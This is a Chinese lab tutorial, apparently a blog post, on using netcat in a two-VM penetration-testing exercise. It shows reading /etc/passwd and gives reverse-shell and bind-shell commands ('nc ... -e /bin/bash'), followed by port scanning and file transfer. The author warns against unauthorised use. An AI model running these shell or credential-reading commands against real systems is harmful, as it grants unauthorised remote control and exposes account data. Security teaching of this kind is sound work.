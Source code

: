 4.查看服务端（contos 7中/etc/paaswd文件夹）进行对比。
命令：`cat /etc/passwd`
![在这里插入图片描述](https://img-blog.csdnimg.cn/e79f6222fb65420ba3b3e1eddad1ea33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_19,color_FFFFFF,t_70,g_se,x_16#pic_center)

小结：通过对比发现，数据是一致的，所以在做渗透测试中，如果你和对方的主机进行了通信，那么你就可以获取文件进行破解，
提升：各位小伙伴可以和我一样开两个虚拟机进行实验，不可以在他人未授权的情况下连接他人主机进行通信。
获取密码也是一样，得到文件后进行哈希破解，在这里就不讲了。

四．获取shell（控制权限）
1.逆向shell
（1）监听端口（kali中输入）
命令：`nc -lvp 9999`
（2）通过contos连接shell
命令：`nc 192.168.116.xxx 9999 -e /bin/bash`
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ff0136479f5427bbaab1a65521c4752.png#pic_center)
（3）Kali中查看是否获得了shell权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/883c245c366b4f279a150f261d304198.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_11,color_FFFFFF,t_70,g_se,x_16#pic_center)

2.正向shell
（1）打开contos的监听
命令：`nc -lvp 6666 -e /bin/bash`
![在这里插入图片描述](https://img-blog.csdnimg.cn/9762b9de64c342e79b400a66191d5aef.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
（2）查看contos的ip
命令：`ip -a`
这里很简单就不说了
（3）Kali进行连接
![在这里插入图片描述](https://img-blog.csdnimg.cn/ca53da4f7e564f13bacdbd973b123bb7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_12,color_FFFFFF,t_70,g_se,x_16#pic_center)
在这里我们可以看到连接没有问题，那么其他操作和前面一致.





## nc的几种常用操作以及常见的反弹shell的姿势

### 端口扫描：

```
nc -v ip port  　　　　　指定端口
nc -v -w ip -z 1-65536  指定端口范围
nc -nvz 127.0.0.1 1-100　　nc 使用全链接方式扫描端口（TCP扫描）
nc -nvzu 192.168.1.105 1-1024 udp扫描
```

-v 输出详细报告

-w timeout 一个链接一段时间无操作，则自动断开，默认无超时

-z 只监听不发送任何包

### 文件传输：

```
nc -l 8099 > 要接受的文件名
nc  目的IP 8099 < 要发送的文件
```
